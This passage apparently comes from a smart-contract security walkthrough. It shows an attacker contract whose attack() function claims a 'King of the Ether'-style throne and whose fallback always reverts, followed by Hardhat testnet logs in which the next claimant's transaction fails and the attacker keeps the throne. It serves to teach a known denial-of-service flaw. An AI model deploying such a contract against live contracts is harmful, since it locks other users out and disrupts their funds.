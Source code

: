 ```js
    }

    function attack () public payable {
        victim_contract.claimThrone.value (msg.value) ("Pwned!");
    }

    function () external payable {
        revert ("MUAHAHAHAHAHA");
    }
}
```

First, the contract (deployed in this case to 0x8464135c8F25Da09e49BC8782676a84730C318bC)  gets the throne after the attacker calling `attack()`:
```
  Contract call:       <UnrecognizedContract>
  Transaction:         0xd73070860c290a0f7feb32c2f741e3a6d3b6c6d8eb2b4c8dfabbbe325c79f8c5
  From:                0x70997970c51812dc3a010c7d01b50e0d17dc79c8
  To:                  0x8464135c8f25da09e49bc8782676a84730c318bc
  Value:               0.15 ETH
  Gas used:            178734 of 30000000
  Block #10:           0x783fb16906b661c6e0d631aec7fdf651e9890f533930f884281fc384650a1a1a

  console.log:
    [KOTE] claimThrone()
    [KOTE] Current claim pricce:
    150000000000000000
    [KOTE] Sending compenstaion to the previous monarch at address:
    0x70997970c51812dc3a010c7d01b50e0d17dc79c8
    [KOTE] Refund:
    148500000000000000
    [KOTE] Compensation done
    [KOTE] All done. New monarch:
    0x8464135c8f25da09e49bc8782676a84730c318bc
    [KOTE] New claim price:
    225000000000000000
```

Then, the next candidate wants to claim the throne and issues another transaction:
```
  Contract call:       <UnrecognizedContract>
  Transaction:         0x677525a4f76227943a655e155fefc33db968a8146f6ee05fb361c5dd862b8f56
  From:                0x70997970c51812dc3a010c7d01b50e0d17dc79c8
  To:                  0x0165878a594ca255338adfa4d48449f69242eb8f
  Value:               0.225 ETH
  Gas used:            45477 of 30000000
  Block #11:           0xc3add403e47a5fad72c11114982c25a50ddbcbb56cfdc4846318a9c4aa23ae91

  console.log:
    [KOTE] claimThrone()
    [KOTE] Current claim pricce:
    225000000000000000
    [KOTE] Sending compenstaion to the previous monarch at address:
    0x8464135c8f25da09e49bc8782676a84730c318bc
    [KOTE] Refund:
    222750000000000000

  Error: VM Exception while processing transaction: reverted with reason string 'MUAHAHAHAHAHA'
      at <UnrecognizedContract>.<unknown> (0x8464135c8f25da09e49bc8782676a84730c318bc)
      at <UnrecognizedContract>.<unknown> (0x0165878a594ca255338adfa4d48449f69242eb8f)
      at HardhatNode._mineBlockWithPendingTxs (/root/hardhat-testnet/node_modules/hardhat/src/internal/hardhat-network/provider/node.ts:1773:23)
      at HardhatNode.mineBlock (/root/hardhat-testnet/node_modules/hardhat/src/internal/hardhat-network/provider/node.ts:466:16)
```